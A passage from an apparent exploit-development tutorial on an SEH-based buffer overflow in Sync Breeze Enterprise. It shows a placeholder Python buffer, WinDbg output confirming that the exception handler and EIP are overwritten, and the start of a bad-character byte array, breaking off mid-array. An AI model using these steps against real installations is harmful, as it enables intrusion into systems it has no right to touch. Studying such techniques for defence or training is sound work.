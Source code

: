 ```python
...
size = 1000

Buffer = b"A" * 128
seh = b"B" * 4
shellcode = b"C" * (size - len(Buffer) - len(seh))
...
```

Run it, and verify that we got the control of Exception Handler.

```bash
0:009> g
(1b9c.1fe4): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Program Files\Sync Breeze Enterprise\bin\libpal.dll
eax=41414141 ebx=01a1fa0c ecx=01a1ff08 edx=01a1f9c4 esi=01a1ff08 edi=01a1fb10
eip=00862a9d esp=01a1f998 ebp=01a1feb8 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
libpal!SCA_ConfigObj::Deserialize+0x1d:
00862a9d ff5024          call    dword ptr [eax+24h]  ds:0023:41414165=????????

0:011> !exchain
01a1fe0c: libpal!md5_starts+149fb (008ddf5b)
01a1ff44: 42424242
Invalid exception stack at 41414141

0:011> g
(1b9c.1fe4): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=42424242 edx=77e25b50 esi=00000000 edi=00000000
eip=42424242 esp=01a1f440 ebp=01a1f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
42424242 ??              ???

```

As we can confirm, we successfully overwritted the exception handler with our four B. Continue the execution show that the EIP is overwritten with our four B as expected.

### 5. Detecting Bad Characters.<a name="BadChars"></a>

```python
...
size = 1000

badchars = (
    b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d"
    b"\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a"
    b"\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27"
    b"\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34"
    b"\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
    b"\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e"
    b"\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b"
    b"\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
    b"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75"
    b"\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
    b"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
    b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c"
    b"\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9"
    b"\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6"
    b"\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
    b"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
```